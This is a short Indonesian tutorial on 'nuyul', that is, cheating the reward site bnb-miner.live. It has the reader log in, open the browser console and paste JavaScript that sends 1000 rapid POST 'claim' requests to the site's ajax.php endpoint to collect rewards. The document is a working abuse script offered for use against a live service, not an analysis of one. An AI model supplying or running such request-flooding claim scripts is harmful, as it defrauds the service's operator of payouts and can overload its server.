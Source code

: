 # Tutorial nuyul bnb-miner.live

- buka browser chrome
- buka bnb-miner.live dan login address bnb mu suu
- masuk ke inspect elemen. 
- pilih tab console
- copy and paste code dibawah ini


```
let formData = new FormData;
formData.append('action', 'claim');
for(let i = 0; i < 1000; i++){
        console.log("gass");
        fetch('https://bnb-miner.live/ajax.php', {
        method: 'POST',
        body: formData
        })
        .then((response) => response.json())
        .then((result) => {
            console.log(result);
        })
        .catch((error) => {
            console.error('Error:', error);
        });
}

```
